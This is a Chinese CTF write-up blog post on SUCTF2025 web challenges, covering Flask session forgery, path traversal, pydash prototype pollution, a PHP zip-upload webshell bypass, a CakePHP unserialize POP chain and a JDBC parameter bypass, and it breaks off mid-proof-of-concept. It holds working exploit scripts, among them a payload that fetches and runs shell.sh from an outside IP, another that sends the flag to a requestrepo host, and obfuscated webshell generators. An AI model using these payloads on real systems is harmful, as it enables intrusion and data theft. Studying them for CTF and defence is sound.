+++
title = "SUCTF2025"
slug = "suctf2025"
description = "出了一道中等难度的题目最后二十多解"
date = "2025-01-13T16:41:17"
lastmod = "2025-01-13T16:41:17"
image = ""
license = ""
categories = ["赛题"]
tags = ["flask", "php", "出题", "jdbc"]
+++

# 0x01 说在前面

这次是联合战队SU主办，我也当了两天的播报员，同时作为哥哥们与参赛师傅进行答疑的桥梁，说实话不敢想，甚至还出了一道非常简单的题目，之前根本不敢想这种

# 0x02 question

## SU_blog

### 预期

首先进来是一个普通的博客网站，非常之简陋，而这里注册一个账号，进入网站之后发现页尾有提示



这个东西有什么用处呢，F12看看什么情况



存在session，可能就是进行flask的session伪造了，写个简单的脚本，中途有师傅来问我时间戳是怎么样的，其实呢，我反正都也说明白的

```python
import time
import hashlib

# 获取整数时间戳
timestamp = int(time.time())
start = timestamp - 300000
end = timestamp + 300000

# 生成整数范围并计算其 MD5 哈希值
my_dict = {i: hashlib.md5(str(i).encode()).hexdigest() for i in range(start, end + 1)}

# 将 MD5 哈希值写入文件
with open('./output.txt', 'w') as f:
    for key, md5_hash in my_dict.items():
        f.write(f"{md5_hash}\n")

print("MD5 哈希值已成功写入文件 output.txt")
```

然后使用`flask-unsign`来进行爆破密钥

```
flask-unsign --unsign --cookie "eyJ1c2VybmFtZSI6ImJhb3pvbmd3aSJ9.Z20ytA.1XlW1ub_pD2C01b9TRSrpAeX7Ps" --wordlist C:\Users\baozhongqi\Desktop\output.txt

flask-unsign --sign --cookie "{'username': 'admin'}" --secret '3d878169e90d61b3429d932e168282f7'
```

然后换上就发现多了一个友链添加的功能，这里看着像是有ssrf漏洞，但是测试了很久也没有任何东西，而且也没有探测到有常见端口在，看友链也是直接一个重定向，在文章处测试了很久发现原来有任意文件读取



那先读取`/etc/passwd`



但是好像没成功理论上这个payload是对的



双写绕过即可，那么我们读取重要变量

```
/proc/self/environ

/proc/self/cmdline

/app/app.py
```





```python
from flask import *
import time,os,json,hashlib
from pydash import set_
from waf import pwaf,cwaf

app = Flask(__name__)
app.config['SECRET_KEY'] = hashlib.md5(str(int(time.time())).encode()).hexdigest()

users = {"testuser": "password"}
BASE_DIR = '/var/www/html/myblog/app'

articles = {
    1: "articles/article1.txt",
    2: "articles/article2.txt",
    3: "articles/article3.txt"
}

friend_links = [
    {"name": "bkf1sh", "url": "https://ctf.org.cn/"},
    {"name": "fushuling", "url": "https://fushuling.com/"},
    {"name": "yulate", "url": "https://www.yulate.com/"},
    {"name": "zimablue", "url": "https://www.zimablue.life/"},
    {"name": "baozongwi", "url": "https://baozongwi.xyz/"},
]

class User():
    def __init__(self):
        pass

user_data = User()
@app.route('/')
def index():
    if 'username' in session:
        return render_template('blog.html', articles=articles, friend_links=friend_links)
    return redirect(url_for('login'))

@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'POST':
        username = request.form['username']
        password = request.form['password']
        if username in users and users[username] == password:
            session['username'] = username
            return redirect(url_for('index'))
        else:
            return "Invalid credentials", 403
    return render_template('login.html')

@app.route('/register', methods=['GET', 'POST'])
def register():
    if request.method == 'POST':
        username = request.form['username']
        password = request.form['password']
        users[username] = password
        return redirect(url_for('login'))
    return render_template('register.html')


@app.route('/change_password', methods=['GET', 'POST'])
def change_password():
    if 'username' not in session:
        return redirect(url_for('login'))

    if request.method == 'POST':
        old_password = request.form['old_password']
        new_password = request.form['new_password']
        confirm_password = request.form['confirm_password']

        if users[session['username']] != old_password:
            flash("Old password is incorrect", "error")
        elif new_password != confirm_password:
            flash("New passwords do not match", "error")
        else:
            users[session['username']] = new_password
            flash("Password changed successfully", "success")
            return redirect(url_for('index'))

    return render_template('change_password.html')


@app.route('/friendlinks')
def friendlinks():
    if 'username' not in session or session['username'] != 'admin':
        return redirect(url_for('login'))
    return render_template('friendlinks.html', links=friend_links)


@app.route('/add_friendlink', methods=['POST'])
def add_friendlink():
    if 'username' not in session or session['username'] != 'admin':
        return redirect(url_for('login'))

    name = request.form.get('name')
    url = request.form.get('url')

    if name and url:
        friend_links.append({"name": name, "url": url})

    return redirect(url_for('friendlinks'))


@app.route('/delete_friendlink/<int:index>')
def delete_friendlink(index):
    if 'username' not in session or session['username'] != 'admin':
        return redirect(url_for('login'))

    if 0 <= index < len(friend_links):
        del friend_links[index]

    return redirect(url_for('friendlinks'))

@app.route('/article')
def article():
    if 'username' not in session:
        return redirect(url_for('login'))

    file_name = request.args.get('file', '')
    if not file_name:
        return render_template('article.html', file_name='', content="未提供文件名。")

    blacklist = ["waf.py"]
    if any(blacklisted_file in file_name for blacklisted_file in blacklist):
        return render_template('article.html', file_name=file_name, content="大黑阔不许看")
    
    if not file_name.startswith('articles/'):
        return render_template('article.html', file_name=file_name, content="无效的文件路径。")
    
    if file_name not in articles.values():
        if session.get('username') != 'admin':
            return render_template('article.html', file_name=file_name, content="无权访问该文件。")
    
    file_path = os.path.join(BASE_DIR, file_name)
    file_path = file_path.replace('../', '')
    
    try:
        with open(file_path, 'r', encoding='utf-8') as f:
            content = f.read()
    except FileNotFoundError:
        content = "文件未找到。"
    except Exception as e:
        app.logger.error(f"Error reading file {file_path}: {e}")
        content = "读取文件时发生错误。"

    return render_template('article.html', file_name=file_name, content=content)


@app.route('/Admin', methods=['GET', 'POST'])
def admin():
    if request.args.get('pass')!="SUers":
        return "nonono"
    if request.method == 'POST':
        try:
            body = request.json

            if not body:
                flash("No JSON data received", "error")
                return jsonify({"message": "No JSON data received"}), 400

            key = body.get('key')
            value = body.get('value')

            if key is None or value is None:
                flash("Missing required keys: 'key' or 'value'", "error")
                return jsonify({"message": "Missing required keys: 'key' or 'value'"}), 400

            if not pwaf(key):
                flash("Invalid key format", "error")
                return jsonify({"message": "Invalid key format"}), 400

            if not cwaf(value):
                flash("Invalid value format", "error")
                return jsonify({"message": "Invalid value format"}), 400

            set_(user_data, key, value)

            flash("User data updated successfully", "success")
            return jsonify({"message": "User data updated successfully"}), 200

        except json.JSONDecodeError:
            flash("Invalid JSON data", "error")
            return jsonify({"message": "Invalid JSON data"}), 400
        except Exception as e:
            flash(f"An error occurred: {str(e)}", "error")
            return jsonify({"message": f"An error occurred: {str(e)}"}), 500

    return render_template('admin.html', user_data=user_data)


@app.route('/logout')
def logout():
    session.pop('username', None)
    flash("You have been logged out.", "info")
    return redirect(url_for('login'))


if __name__ == '__main__':
    app.run(host='0.0.0.0',port=5000)
```

可以直接看到有pydash，其中导入了`set_`，然后不断跟进到`update_with`，发现这个东西很像merge函数，那么这里的考点应该就是原型链污染了，但是可以很明显的看到，这里是有waf的，要绕过waf进行文件读取或者是RCE

```python
def update_with(obj, path, updater, customizer=None):  # noqa: C901
    """
    This method is like :func:`update` except that it accepts customizer which is invoked to produce
    the objects of path. If customizer returns ``None``, path creation is handled by the method
    instead. The customizer is invoked with three arguments: ``(nested_value, key, nested_object)``.

    Args:
        obj (list|dict): Object to modify.
        path (str|list): A string or list of keys that describe the object path to modify.
        updater (callable): Function that returns updated value.
        customizer (callable, optional): The function to customize assigned values.

    Returns:
        mixed: Updated `obj`.

    Warning:
        `obj` is modified in place.

    Example:

        >>> update_with({}, '[0][1]', lambda: 'a', lambda: {})
        {0: {1: 'a'}}

    .. versionadded:: 4.0.0
    """
    if not callable(updater):
        updater = pyd.constant(updater)

    if customizer is not None and not callable(customizer):
        call_customizer = partial(callit, clone, customizer, argcount=1)
    elif customizer:
        call_customizer = partial(callit, customizer, argcount=getargcount(customizer, maxargs=3))
    else:
        call_customizer = None

    default_type = dict if isinstance(obj, dict) else list
    tokens = to_path_tokens(path)

    if not pyd.is_list(tokens):  # pragma: no cover
        tokens = [tokens]

    last_key = pyd.last(tokens)

    if isinstance(last_key, PathToken):
        last_key = last_key.key

    target = obj

    for idx, token in enumerate(pyd.initial(tokens)):
        if isinstance(token, PathToken):
            key = token.key
            default_factory = pyd.get(tokens, [idx + 1, "default_factory"], default=default_type)
        else:
            key = token
            default_factory = default_type

        obj_val = base_get(target, key, default=None)
        path_obj = None

        if call_customizer:
            path_obj = call_customizer(obj_val, key, target)

        if path_obj is None:
            path_obj = default_factory()

        base_set(target, key, path_obj, allow_override=False)

        try:
            target = base_get(target, key, default=None)
        except TypeError as exc:  # pragma: no cover
            try:
                target = target[int(key)]
                _failed = False
            except Exception:
                _failed = True

            if _failed:
                raise TypeError(f"Unable to update object at index {key!r}. {exc}")

    value = base_get(target, last_key, default=None)
    base_set(target, last_key, callit(updater, value))

    return obj
```

然后进行fuzz即可，发现过滤了`__loader__`，直接用`__spec__`进行替换即可，写个脚本进行发包即可，不过后面的`value`参数一样有问题，仍然需要绕过，不过curl是可以使用的，

```python
import requests
import json
url="http://27.25.151.48:10002/Admin?pass=SUers"

payload={"key":"__init__.__globals__.json.__spec__.__init__.__globals__.sys.modules.jinja2.runtime.exported.2","value":"*;import os;os.system('curl http://156.238.233.9/shell.sh|bash');#"}

headers={'Content-Type': 'application/json'}
payload_json=json.dumps(payload)
print(payload_json)

r=requests.post(url,data=payload_json,headers=headers)
print(r.text)
```

污染成功之后，访问网站，触发，成功反弹，



但是这里的靶机是两分钟刷新的，如果这里的靶机是五分钟的，那么推荐V&N师傅infernity宝子的做法

```python
import requests
import time

url1 = "http://27.25.151.48:5000/Admin?pass=SUers"
url2 = "http://27.25.151.48:5001/Admin?pass=SUers"

cookies = {"session":"eyJ1c2VybmFtZSI6ImFkbWluIn0.Z4MUfA.gaWUfOrunhWrYl1po8bZCWjzePk"}

json = {
    "key":"__init__.__globals__.globals.__spec__.__init__.__globals__.sys.modules.jinja2.runtime.exported.2",
    "value":"*;import os;os.system('/read''f''lag | curl -d @- bxyyymgu.requestrepo.com')"
}
while True:
    res = requests.post(url1, cookies=cookies,json=json)
    print(res.text)
    print(requests.get(url1,cookies=cookies).text)

    res = requests.post(url2, cookies=cookies,json=json)
    print(res.text)
    print(requests.get(url2,cookies=cookies).text)
    time.sleep(5)
```

### 小点子

其实我一开始出题的时候我就知道怎么绕过时间戳这里的问题，因为我的session设置只有用户名，所以如果注册admin就可以绕过，这个是正常的，搞笑的是一个代码问题，请看路由

```python
@app.route('/article')
def article():
    if 'username' not in session:
        return redirect(url_for('login'))

    file_name = request.args.get('file', '')
    if not file_name:
        return render_template('article.html', file_name='', content="未提供文件名。")

    blacklist = ["waf.py"]
    if any(blacklisted_file in file_name for blacklisted_file in blacklist):
        return render_template('article.html', file_name=file_name, content="大黑阔不许看")
    
    if not file_name.startswith('articles/'):
        return render_template('article.html', file_name=file_name, content="无效的文件路径。")
    
    if file_name not in articles.values():
        if session.get('username') != 'admin':
            return render_template('article.html', file_name=file_name, content="无权访问该文件。")
    
    file_path = os.path.join(BASE_DIR, file_name)
    file_path = file_path.replace('../', '')
    
    try:
        with open(file_path, 'r', encoding='utf-8') as f:
            content = f.read()
    except FileNotFoundError:
        content = "文件未找到。"
    except Exception as e:
        app.logger.error(f"Error reading file {file_path}: {e}")
        content = "读取文件时发生错误。"

    return render_template('article.html', file_name=file_name, content=content)
```

这里我将路径替换写到了最后面，所以导致了非预期，



导致狼组读到了waf，但是无伤大雅，不会绕哈哈，那么如何修复这个漏洞呢，其实测试一下发现，只要将代码顺序修改一下就可以修复这个漏洞了



```python
@app.route('/article')
def article():
    if 'username' not in session:
        return redirect(url_for('login'))

    file_name = request.args.get('file', '')
    if not file_name:
        return render_template('article.html', file_name='', content="未提供文件名。")

    file_path = os.path.join(BASE_DIR, file_name)
    file_path = file_path.replace('../', '')
    
    blacklist = ["waf.py"]
    if any(os.path.basename(file_path) == blacklisted_file for blacklisted_file in blacklist):
        return render_template('article.html', file_name=file_name, content="大黑阔不许看")
    
    if not file_name.startswith('articles/'):
        return render_template('article.html', file_name=file_name, content="无效的文件路径。")
    
    if file_name not in articles.values():
        if session.get('username') != 'admin':
            return render_template('article.html', file_name=file_name, content="无权访问该文件。")
    
    
    try:
        with open(file_path, 'r', encoding='utf-8') as f:
            content = f.read()
    except FileNotFoundError:
        content = "文件未找到。"
    except Exception as e:
        app.logger.error(f"Error reading file {file_path}: {e}")
        content = "读取文件时发生错误。"

    return render_template('article.html', file_name=file_name, content=content)
```

## SU_photogallery

首先把docker传到机器上面

```
C:\Users\baozhongqi\Desktop\SUCTF2025\SU_photogallery\SU_photogallery
```

然后直接启动即可，现在的问题就是进来之后就一个上传图片的口子，先扫一下看看有没有提示，扫出来一个`robots.txt`，源码里面也没有什么东西，访问之后得到

```
User-agent: *
see see node.md
```

访问`/node.md`

```
书鱼哥哥交给我个任务，让我写一个su的图库来存放战队的美好回忆，我需要测试我开发的代码，于是我在服务器上测试，但是我测试的时候并不想大费周章改变我原本配置的环境。

1：可以提交一张图片（Working）

2：通过提交压缩包来批量提交图片

3...
```

那么就是两个选择，一个是交图片一个是交压缩包，上传文件之后莫名其妙搞到报错了



让我回想起了一道ctfshow使用php内置服务器启动的题目，然后上网搜索，找到源码泄露漏洞



但是对于利用方式没想到`index.php`居然不存在，后面随便上传一个文件知道是`unzip.php`，其中还有细节是要修改bp的一个更新content-length的功能

```http
GET /phpinfo.php HTTP/1.1
Host: 156.238.233.93

GET /Kawakaze HTTP/1.1


```



读取成功之后把参数名换了拿到源码

```http
GET /unzip.php HTTP/1.1
Host: 156.238.233.93

GET /test.txt HTTP/1.1


```

注意格式不要错

```php
<?php
error_reporting(0);

function get_extension($filename){
    return pathinfo($filename, PATHINFO_EXTENSION);
}
function check_extension($filename,$path){
    $filePath = $path . DIRECTORY_SEPARATOR . $filename;
    
    if (is_file($filePath)) {
        $extension = strtolower(get_extension($filename));

        if (!in_array($extension, ['jpg', 'jpeg', 'png', 'gif'])) {
            if (!unlink($filePath)) {
                // echo "Fail to delete file: $filename\n";
                return false;
                }
            else{
                // echo "This file format is not supported:$extension\n";
                return false;
                }
    
        }
        else{
            return true;
            }
}
else{
    // echo "nofile";
    return false;
}
}
function file_rename ($path,$file){
    $randomName = md5(uniqid().rand(0, 99999)) . '.' . get_extension($file);
                $oldPath = $path . DIRECTORY_SEPARATOR . $file;
                $newPath = $path . DIRECTORY_SEPARATOR . $randomName;

                if (!rename($oldPath, $newPath)) {
                    unlink($path . DIRECTORY_SEPARATOR . $file);
                    // echo "Fail to rename file: $file\n";
                    return false;
                }
                else{
                    return true;
                }
}

function move_file($path,$basePath){
    foreach (glob($path . DIRECTORY_SEPARATOR . '*') as $file) {
        $destination = $basePath . DIRECTORY_SEPARATOR . basename($file);
        if (!rename($file, $destination)){
            // echo "Fail to rename file: $file\n";
            return false;
        }
      
    }
    return true;
}


function check_base($fileContent){
    $keywords = ['eval', 'base64', 'shell_exec', 'system', 'passthru', 'assert', 'flag', 'exec', 'phar', 'xml', 'DOCTYPE', 'iconv', 'zip', 'file', 'chr', 'hex2bin', 'dir', 'function', 'pcntl_exec', 'array', 'include', 'require', 'call_user_func', 'getallheaders', 'get_defined_vars','info'];
    $base64_keywords = [];
    foreach ($keywords as $keyword) {
        $base64_keywords[] = base64_encode($keyword);
    }
    foreach ($base64_keywords as $base64_keyword) {
        if (strpos($fileContent, $base64_keyword)!== false) {
            return true;

        }
        else{
           return false;

        }
    }
}

function check_content($zip){
    for ($i = 0; $i < $zip->numFiles; $i++) {
        $fileInfo = $zip->statIndex($i);
        $fileName = $fileInfo['name'];
        if (preg_match('/\.\.(\/|\.|%2e%2e%2f)/i', $fileName)) {
            return false; 
        }
            // echo "Checking file: $fileName\n";
            $fileContent = $zip->getFromName($fileName);
            

            if (preg_match('/(eval|base64|shell_exec|system|passthru|assert|flag|exec|phar|xml|DOCTYPE|iconv|zip|file|chr|hex2bin|dir|function|pcntl_exec|array|include|require|call_user_func|getallheaders|get_defined_vars|info)/i', $fileContent) || check_base($fileContent)) {
                // echo "Don't hack me!\n";    
                return false;
            }
            else {
                continue;
            }
        }
    return true;
}

function unzip($zipname, $basePath) {
    $zip = new ZipArchive;

    if (!file_exists($zipname)) {
        // echo "Zip file does not exist";
        return "zip_not_found";
    }
    if (!$zip->open($zipname)) {
        // echo "Fail to open zip file";
        return "zip_open_failed";
    }
    if (!check_content($zip)) {
        return "malicious_content_detected";
    }
    $randomDir = 'tmp_'.md5(uniqid().rand(0, 99999));
    $path = $basePath . DIRECTORY_SEPARATOR . $randomDir;
    if (!mkdir($path, 0777, true)) {
        // echo "Fail to create directory";
        $zip->close();
        return "mkdir_failed";
    }
    if (!$zip->extractTo($path)) {
        // echo "Fail to extract zip file";
        $zip->close();
    }
    else{
        for ($i = 0; $i < $zip->numFiles; $i++) {
            $fileInfo = $zip->statIndex($i);
            $fileName = $fileInfo['name'];
            if (!check_extension($fileName, $path)) {
                // echo "Unsupported file extension";
                continue;
            }
            if (!file_rename($path, $fileName)) {
                // echo "File rename failed";
                continue;
            }
        }
    }

    if (!move_file($path, $basePath)) {
        $zip->close();
        // echo "Fail to move file";
        return "move_failed";
    }
    rmdir($path);
    $zip->close();
    return true;
}


$uploadDir = __DIR__ . DIRECTORY_SEPARATOR . 'upload/suimages/';
if (!is_dir($uploadDir)) {
    mkdir($uploadDir, 0777, true);
}

if (isset($_FILES['file']) && $_FILES['file']['error'] === UPLOAD_ERR_OK) {
    $uploadedFile = $_FILES['file'];
    $zipname = $uploadedFile['tmp_name'];
    $path = $uploadDir;

    $result = unzip($zipname, $path);
    if ($result === true) {
        header("Location: index.html?status=success");
        exit();
    } else {
        header("Location: index.html?status=$result");
        exit();
    }
} else {
    header("Location: index.html?status=file_error");
    exit();
}
```

先草草的看看代码发现并没有什么长度和大小的限制，因为是压缩包的上传，很正常但是正因为如此，这个waf就很好绕过去github上面找点免杀，就可以，看看代码首先就看到对图片的处理



这个很显然过滤的很少，可以直接用`.htaccess`绕过，高兴的上线一看，没有上传图片的口子emm，然后是一个生成文件名的函数`file_rename`，移动文件的函数`move_file`，对文件过滤的waf`check_base`，对压缩包的`check_content`，然后就是解压函数了，其实就一个关键点，创建了一个`ZipArchive`，但是如果在解压的时候部分文件受损就会中途停止解压，成功遗留下webshell，并且知道木马的路径是`upload/suimages/`



不过这里使用比较简单的方式，出题人的poc，老规矩，先看`phpinfo`

```php
<?=phpinfo();?>
```

[绕过](https://twe1v3.top/2022/10/CTF%E4%B8%ADzip%E6%96%87%E4%BB%B6%E7%9A%84%E4%BD%BF%E7%94%A8/#%E6%96%87%E4%BB%B6%E5%90%8D%E6%8A%A5%E9%94%99)，按照里面的来制作zip包



结果一直做不好，换一种方法，超出限制

```python
import zipfile
import io

mf = io.BytesIO()
with zipfile.ZipFile(mf, mode="w", compression=zipfile.ZIP_STORED) as zf:
    zf.writestr('1.php', b'<?=`ls`;?>')
    zf.writestr('A' * 5000, b'AAAAA')

with open("shell.zip", "wb") as f:
    f.write(mf.getvalue())
```

结果上次成功了但是没有成功RCE，好像有disable，可以看看

```python
import zipfile
import io

# PHP代码作为一个字符串
php_code = """
<?php
$a = 'edoced_46esab';
$b = strrev($a);

$d = 'c3~@#@#@lz!@dGVt';
$s = $b($d);

echo $s;
$s($_POST[1]);
$e='php';
$f='in';
$w='fo';
$g=$e.$f.$w;
$g();
?>
"""

mf = io.BytesIO()
with zipfile.ZipFile(mf, mode="w", compression=zipfile.ZIP_STORED) as zf:
    # 将phpinfo()替换为提供的PHP代码
    zf.writestr('1.php', php_code.encode())  # 确保将字符串编码为字节
    zf.writestr('A' * 5000, b'AAAAA')

with open("shell.zip", "wb") as f:
    f.write(mf.getvalue())
```



打通之后找到Nbc哥哥询问第一种方法哪里错了，原来是没改好，其实还是两个文件的，但是我看了那个文章之后就觉得不对了，因为每次上传上去之后都没有成功





但是在这里一不小心又踩了个坑，shell应该在前面而不是后面



说实话这个压缩这里挺折磨人的

## SU_POP

先下载源码然后打开审一下，首先进来看到是压缩包`CakePHP`，网上找点文章看看先，进入代码之后先看路由

```php
<?php

use Cake\Routing\Route\DashedRoute;
use Cake\Routing\RouteBuilder;

return function (RouteBuilder $routes): void {
    $routes->setRouteClass(DashedRoute::class);

    $routes->scope('/', function (RouteBuilder $builder): void {
        $builder->connect('/', ['controller' => 'Pages', 'action' => 'display', 'home']);
        $builder->connect('/pages/*', 'Pages::display');
        $builder->get('/ser', ['controller' => 'Pages', 'action' => 'handleSer']);
        $builder->fallbacks();
    });
};

```

也就是`/ser`路由看起来是可利用的，还有`connect`看起来好像也可以，不过我们先进`handleSer`，全局搜索之后找到

```php
public function handleSer()
    {
        $ser = $this->request->getQuery('ser');
        unserialize(base64_decode($ser));
        $this->set('ser', $ser);
        $this->viewBuilder()->setLayout('ajax');
        $this->render('handle_ser');
    }
```

找到反序列化点，并且参数为`ser`，那么继续找反序列化入口，我们直接搜索`__destruct`，找肯定是要找有可能触发方法的，而不是直接断掉的，最后找到下图的方法



这里可以触发`__toString`，然后继续查找方法，要让`$handler`为NULL值才可以，跟进之后发现这个方法在我们使用的时候是恒返回NULL的

```php
function set_rejection_handler(?callable $callback): ?callable
{
    static $current = null;
    $previous = $current;
    $current = $callback;

    return $previous;
}
```

现在参数可控，我们找到合适的`__toString`即可，我捏吗是真难找啊，我找了好多个方法才看到



其中如果方法是不存在的即可访问`__call`也就是网上的那条链子了，不过现在要解决一个问题就是看看`$stream这个参数是否可控`



然后就到网上的那个`__call`方法去



然后找可以利用的`call`方法，



这里已经是可以调用任意函数了，其中调用方法的是没有参数的方法，所以继续找再找可以RCE的方法比如`eval`什么的，phpstorm不好找，所以进notepad找，然后找到这个



然后进入看那看是否无参，确实是



那么就对了，写出链子

```
RejectedPromise::__destruct()->Response::__toString()->Table::__call()->BehaviorRegistry::call()->MockClass::->generate()
```

依次触发写出`exp`，这里简单提一嘴命名空间这个概念，因为我之前tp也没自己写过，其实就是`namespace`和`use`，这二者的区别就是

> namespace用来写起始位置，use写触发位置

可能还是没看懂，但是你把poc配合起来看肯定能看懂的


当我写到这里的时候我卡住了，为啥呢，因为是真不知道怎么写了，后面一看，这两个东西都在`Cake\ORM`下面不需要用use了，然后在`call`方法的时候又卡了，不知道怎么写参数，跟进这个检查方法的看



看来是检查方法是否存在于`_methodMap`这个数组里面



这也是一样的检查是不是在`_loader`里面，也就是在这两个数组里面写类和调用的方法即可

```php
<?php
namespace React\Promise\Internal;
use Cake\Http\Response;
final class RejectedPromise
{
    private $reason;
    private $handled = false;
    public function __construct(){
        $this->reason = new Response();
    }
}

namespace Cake\Http;
use Cake\ORM\Table;
class Response
{
    private $stream;
    public function __construct(){
        $this->stream = new Table();
    }
}

namespace Cake\ORM;
use PHPUnit\Framework\MockObject\Generator\MockClass;
class Table
{
    protected BehaviorRegistry $_behaviors;
    public function __construct(){
        $this->_behaviors=new BehaviorRegistry();
    }
}

class ObjectRegistry{}
class BehaviorRegistry extends ObjectRegistry
{
    protected array $_methodMap = [];
    protected array $_loaded = [];
    public function __construct(){
        $this->_methodMap = ["rewind"=>array("wi","generate")];
        $this->_loaded = ["wi"=>new MockClass()];
    }
}

namespace PHPUnit\Framework\MockObject\Generator;
use function call_user_func;
use function class_exists;
final class MockClass
{
    private readonly string $classCode;
    private readonly string $mockName;
    public function __construct(){
        // $this->classCode = "phpinfo();";
        $this->classCode = "system('ls');";
        $this->mockName="wi";
    }
}

namespace React\Promise\Internal;
$a=new RejectedPromise();
echo base64_encode(serialize($a));
```

终于成功了，太难了这一路走来，然后提权

```
find . -exec cat /flag.txt \; -quit
```

但是写着写着就忘了为啥要写`rewind`呢，其实仔细回看，在`__toString()`里面触发了这个方法，所以下图的参数也是`rewind`



那么call里面的代码解析看看就是

```php
return $this->_loaded[$behavior]->{$callMethod}(...$args);
```

这里是触发`$behavior`中的`$callMethod`方法，

```php
[$behavior, $callMethod] = $this->_methodMap[$method];
```

进行依次赋值，将`[0]`赋值给`$behavior`将`[1]`赋值给`$callMethod`，也就对了



## SU_sujava

进来看到好像是一个黑盒一样的东西，搜索hint发现一个漏洞[fakeMysqlServer](https://forum.butian.net/share/2848)

把附件下载下来，然后看代码

```java
package com.pho3n1x.sujava.security;

import java.io.UnsupportedEncodingException;
import java.net.URLDecoder;
import java.util.HashMap;
import java.util.Iterator;
import java.util.Map;
import java.util.regex.Matcher;
import java.util.regex.Pattern;
import java.util.stream.Collectors;
import org.apache.commons.lang3.StringUtils;

/* loaded from: SecurityChecker.class */
public class SecurityChecker {

    /* renamed from: checklist = "allowLoadLocalInfile,autoDeserialize,allowLocalInfile,allowUrlInLocalInfile,#";
	public static void checkJdbcConnParams(String host, Integer port, String username, String password, String database, Map<String, Object> extraParams) throws Exception {
		if (!host.trim().matches("^[a-zA-Z0-9.-]+$") || !database.matches("^[a-zA-Z0-9_]+$") || parseParamsMapToMysqlParamUrl(extraParams).matches(".*(allowLoadLocalInfile|autoDeserialize|allowLocalInfile|allowUrlInLocalInfile|#|%).*")) {
			throw new Exception("Invalid mysql connection params.");
		}
	}, reason: not valid java name and contains not printable characters */
    public static final String f0x2356168a = null;
    private static final String AND_SYMBOL = "&";
    private static final String EQUAL_SIGN = "=";
    private static final String COMMA = ",";
    private static final String BLACKLIST_REGEX = "autodeserialize|allowloadlocalinfile|allowurlinlocalinfile|allowloadlocalinfileinpath";
    public static String MYSQL_SECURITY_CHECK_ENABLE = "true";
    public static String MYSQL_CONNECT_URL = "jdbc:mysql://%s:%s/%s";
    public static String JDBC_MYSQL_PROTOCOL = "jdbc:mysql";
    public static String JDBC_MATCH_REGEX = "(?i)jdbc:(?i)(mysql)://([^:]+)(:[0-9]+)?(/[a-zA-Z0-9_-]*[\\.\\-]?)?";
    public static String MYSQL_SENSITIVE_PARAMS = "allowLoadLocalInfile,autoDeserialize,allowLocalInfile,allowUrlInLocalInfile,#";

    public static void checkJdbcConnParams(String str, Integer num, String str2, String str3, String str4, Map<String, Object> map) throws Exception {
        if (Boolean.valueOf(MYSQL_SECURITY_CHECK_ENABLE).booleanValue()) {
            if (StringUtils.isAnyBlank(new CharSequence[]{str, str2})) {
                throw new Exception("Invalid mysql connection params.");
            }
            String format = String.format(MYSQL_CONNECT_URL, str.trim(), num, str4.trim());
            checkHost(str.trim());
            checkUrl(format);
            checkParams(map);
            checkUrlIsSafe(format);
        }
    }

    public static void checkHost(String str) throws Exception {
        if (str == null) {
            return;
        }
        if (str.startsWith("(") || str.endsWith(")")) {
            throw new Exception("Invalid host");
        }
    }

    public static void checkUrl(String str) throws Exception {
        if ((str == null || str.toLowerCase().startsWith(JDBC_MYSQL_PROTOCOL)) && !Pattern.compile(JDBC_MATCH_REGEX).matcher(str).matches()) {
            throw new Exception();
        }
    }

    private static Map<String, Object> parseMysqlUrlParamsToMap(String str) {
        if (StringUtils.isBlank(str)) {
            return new HashMap();
        }
        String[] split = str.split(AND_SYMBOL);
        HashMap hashMap = new HashMap(split.length);
        for (String str2 : split) {
            String[] split2 = str2.split(EQUAL_SIGN);
            if (split2.length == 2) {
                hashMap.put(split2[0], split2[1]);
            }
        }
        return hashMap;
    }

    public static String parseParamsMapToMysqlParamUrl(Map<String, Object> map) {
        return (map == null || map.isEmpty()) ? "" : (String) map.entrySet().stream().map(entry -> {
            return String.join(EQUAL_SIGN, (CharSequence) entry.getKey(), String.valueOf(entry.getValue()));
        }).collect(Collectors.joining(AND_SYMBOL));
    }

    private static void checkParams(Map<String, Object> map) throws Exception {
        if (map == null || map.isEmpty()) {
            return;
        }
        try {
            Map<String, Object> parseMysqlUrlParamsToMap = parseMysqlUrlParamsToMap(URLDecoder.decode(parseParamsMapToMysqlParamUrl(map), "UTF-8"));
            map.clear();
            map.putAll(parseMysqlUrlParamsToMap);
            Iterator<Map.Entry<String, Object>> it = map.entrySet().iterator();
            while (it.hasNext()) {
                Map.Entry<String, Object> next = it.next();
                String key = next.getKey();
                Object value = next.getValue();
                if (StringUtils.isBlank(key) || value == null || StringUtils.isBlank(value.toString())) {
                    it.remove();
                } else if (isNotSecurity(key, value.toString())) {
                    throw new Exception("Invalid mysql connection parameters: " + parseParamsMapToMysqlParamUrl(map));
                }
            }
        } catch (UnsupportedEncodingException e) {
            throw new Exception("mysql connection cul decode error: " + e);
        }
    }

    private static boolean isNotSecurity(String str, String str2) {
        boolean z = true;
        String str3 = MYSQL_SENSITIVE_PARAMS;
        if (StringUtils.isBlank(str3)) {
            return false;
        }
        String[] split = str3.split(COMMA);
        int length = split.length;
        int i = 0;
        while (true) {
            if (i >= length) {
                break;
            }
            if (isNotSecurity(str, str2, split[i])) {
                z = false;
                break;
            }
            i++;
        }
        return !z;
    }

    private static boolean isNotSecurity(String str, String str2, String str3) {
        return str.toLowerCase().contains(str3.toLowerCase()) || str2.toLowerCase().contains(str3.toLowerCase());
    }

    public static void checkUrlIsSafe(String str) throws Exception {
        try {
            Matcher matcher = Pattern.compile(BLACKLIST_REGEX).matcher(str.toLowerCase());
            StringBuilder sb = new StringBuilder();
            while (matcher.find()) {
                if (sb.length() > 0) {
                    sb.append(", ");
                }
                sb.append(matcher.group());
            }
            if (sb.length() > 0) {
                throw new Exception("url contains blacklisted characters: " + ((Object) sb));
            }
        } catch (Exception e) {
            throw new Exception("error occurred during url security check: " + e);
        }
    }

    public static void appendMysqlForceParams(Map<String, Object> map) {
        map.putAll(parseMysqlUrlParamsToMap("allowLoadLocalInfile=false&autoDeserialize=false&allowLocalInfile=false&allowUrlInLocalInfile=false"));
    }
}
```

这代码全是check没吊用，其中Host地方waf并不严格可以绕过

```java
public static String JDBC_MATCH_REGEX = "(?i)jdbc:(?i)(mysql)://([^:]+)(:[0-9]+)?(/[a-zA-Z0-9_-]*[\\.\\-]?)?";
```

- `([^:]+)` 可以一直匹配所有非冒号字符串
- 通过 url 全字符编码可以绕过关键词匹配waf
- 可以使用 `#` 来忽略最后插入的安全策略

就是正则的问题了，看了一下文章相当于复现一个CVE，开一个`Fake_MySQL_Server`就可以了，放个poc

```
/jdbc

post:
